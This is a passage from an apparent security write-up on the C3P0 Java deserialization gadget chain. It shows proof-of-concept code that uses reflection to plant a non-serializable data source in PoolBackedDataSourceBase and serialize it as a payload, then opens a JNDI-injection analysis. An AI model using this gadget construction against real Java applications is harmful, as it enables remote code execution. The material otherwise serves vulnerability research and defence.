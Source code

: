 ```java

        @Override
        public java.io.PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public void setLogWriter(java.io.PrintWriter out) throws SQLException {
        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }

    public static void main(String[] args) throws Exception {

        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        ConnectionPoolDataSource connectionPoolDataSource1 = new NotSerializable();
        Field field = poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(poolBackedDataSourceBase, connectionPoolDataSource1);

        String serializeData = serialize(poolBackedDataSourceBase);
        System.out.println(serializeData);
        unserial
ize(serializeData);
    }
}
```


## JNDI
### Process Analysis
There are two classes that implement `ConnectionPoolDataSource`, followed up with `JndiRefConnectionPoolDataSource`, where the `JndiRefDataSourceBase#setJndiName` method (`JndiRefForwardingDataSource` inherits the `setJndiName` method in `JndiRefDataSourceBase`) to get the value of `jndiName`.

<div align=center><img src="./images/7.png"></div>
